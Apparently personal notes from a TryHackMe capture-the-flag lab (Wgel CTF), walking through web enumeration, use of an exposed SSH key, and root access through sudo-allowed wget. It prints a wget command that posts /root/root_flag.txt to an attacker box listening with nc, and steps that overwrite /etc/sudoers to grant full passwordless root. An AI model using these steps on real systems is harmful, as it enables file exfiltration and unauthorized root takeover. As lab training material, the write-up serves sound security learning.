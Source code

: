 
2024-07-01 16:46

Source: #tryhackme 

Tags: [[Privilege Escalation]] 

### HTTP

at port 80 Apache is running
on seeing the source code we see a comment that suggests a possible user on the server 
#### Dirbuster 

1. run gobuster on `http://<ip>`
2. we find /sitemap
3. run gobuster again on `http://<ip>/sitemap`
4. we find `.ssh` private `rsa` key of the user found in the source code
### SSH 

1. copy the content of the key to a file
2. run `chmod 600 file` to give the file appropriate permissions
3. login via [[ssh]] as the user found in the source code, using the file as a private key (use -i to specify key)
### Privilege Escalation 

1. `sudo -l `works and tells us we can run `wget` with `sudo`
2. `gtfobins` has a exploit of file upload for [[wget]] 
3. start listening using `nc` on port 9000 in a new terminal
4. according to `gtfobins` we craft an attack to directly get the root flag- 
```
sudo wget --post-file=/root/root_flag.txt http://<Attackbox IP>:9000
```
### Root Shell

1. `gtfobin` has exploits listed for file upload/download/read of `wget`
2. To get a shell with admin privileges we first get the file using the same way as with the flag, we edit the `sudoers` file locally by adding our own settings for the user.`/etc/sudoers`
```
#jessie  ALL=(root) NOPASSWD: /usr/bin/wget
jessie  ALL=(ALL) NOPASSWD: ALL
```
3. we raise a server with python3 in the path where our `sudoers` file is .
4. And in the wgel machine we execute the `wget`(to get the new `sudoers` file from our device to the wgel machine) command with `sudo` which will overwrite the `/etc/sudoers`. **We locate ourselves in the folder of `/etc/`** and execute:
```
sudo /usr/bin/wget <Attackbox IP>/sudoers --output-document=sudoers
```
5. then run `sudo su`



### References
[TryHackMe | Wgel CTF](https://tryhackme.com/r/room/wgelctf)